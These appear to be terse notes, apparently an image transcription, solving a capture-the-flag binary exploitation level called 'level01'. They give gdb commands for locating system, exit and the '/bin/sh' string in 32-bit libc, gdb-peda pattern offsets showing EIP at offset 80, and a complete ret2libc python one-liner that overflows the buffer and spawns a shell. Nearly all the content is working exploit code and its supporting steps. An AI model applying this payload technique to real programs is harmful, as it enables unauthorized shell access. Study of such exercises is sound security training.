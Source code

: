 0xf7e6aed0 p &system
0xf7e5eb70 p &exit

HOW TO FIND /bin/sh

0xf7f897ec

(gdb) info proc map
strings -a -t x /lib32/libc-2.15.so | grep "/bin/sh"
(gdb) x/s (start addr+result)
-----------
(gdb)find &system,+999999,"/bin/sh"

HOW TO FIND OFFSET FOR EIP
gdb-peda pattern create 200
*launch and put pattern*
*segv*
gdb-peda pattern search
Registers contain pattern buffer:
EIP+0 found at offset: 80 <-------------
EBX+0 found at offset: 68
EDI+0 found at offset: 72
EBP+0 found at offset: 76
ECX+52 found at offset: 69


EXPLOIT:

dat_wil\n + 80xpadding + addr of system + return addr of system (exit) + addr of /bin/sh


(python -c 'print "dat_wil\n" + "A"*80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'; cat -) | ./level01 


\xd0\xae\xe6\xf7\x70\xeb\xe5\xf7\xec\x97\xf8\xf7